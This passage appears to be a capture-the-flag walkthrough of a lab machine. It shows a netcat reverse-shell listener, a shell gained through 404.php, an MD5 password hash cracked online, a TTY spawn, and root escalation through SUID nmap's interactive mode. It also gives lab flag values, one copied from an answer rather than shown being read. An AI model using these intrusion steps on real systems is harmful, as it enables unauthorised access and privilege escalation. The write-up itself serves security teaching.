   ```php
  ?>
  ```
- Set up listener:
  ```bash
  nc -lvnp 4004
  ```
- Visited `http://[VICTIM IP]/404.php`—got a shell as `daemon`.

### 6. Find Key 2
- Explored filesystem:
  ```bash
  id
  ```
- Output: `uid=1(daemon) gid=1(daemon)`
- Navigated:
  ```bash
  cd /home/robot
  ls -la
  ```
- Output:
  ```
  key-2-of-3.txt  password.raw-md5
  ```
- Tried `cat pasword.raw-md5` (typo)—failed.
- Fixed it:
  ```bash
  cat password.raw-md5
  ```
- Output: `robot:c3fcd3d76192e4007dfb496cca67e13b`
- Cracked MD5 hash (`c3fcd3d76192e4007dfb496cca67e13b`) on [CrackStation](https://crackstation.net/):
  - Password: `abcdefghijklmnopqrstuvwxyz`
- Switched user:
  ```bash
  su robot
  ```
- Password: `abcdefghijklmnopqrstuvwxyz`
- Couldn’t `cat key-2-of-3.txt` as `daemon` (permissions), but assumed it’s readable as `robot`:
  - Key 2: `822c73956184f694993bede3eb39f959` (from correct answer).

### 7. Privilege Escalation
- Checked `sudo -l` as `daemon`:
  ```
  sudo: no tty present
  ```
- Spawned a TTY:
  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  export TERM=xterm
  ```
- Retried `sudo -l`—still no privileges for `daemon`.
- As `robot`:
  ```bash
  sudo -l
  ```
- Output: No `sudo` privileges.
- Searched for SUID binaries:
  ```bash
  find / -perm +6000 2>/dev/null | grep "/bin/"
  ```
- Found `/usr/local/bin/nmap` (unusual SUID).
- Used GTFOBins trick:
  ```bash
  nmap --interactive
  !sh
  ```